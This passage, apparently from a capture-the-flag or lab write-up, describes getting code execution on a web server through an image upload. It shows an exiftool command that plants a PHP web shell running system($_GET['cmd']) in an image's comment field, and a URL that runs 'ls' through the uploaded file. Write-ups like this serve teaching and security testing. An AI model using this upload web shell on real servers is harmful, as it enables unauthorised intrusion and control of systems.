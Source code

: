![](Pictures/connection_from_server.png)


However, these pings are just from the reloading of the page. I cannot get code execution.

So I tried injecting the code into the Comment using exiftool.

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' test.php.jpg
```

Then I passed the command to the ?cmd parameter, since outbound requests are blocked.

```
/images/uploads/test.php.png?cmd=ls
```

![](Pictures/remote_code_execution.png)
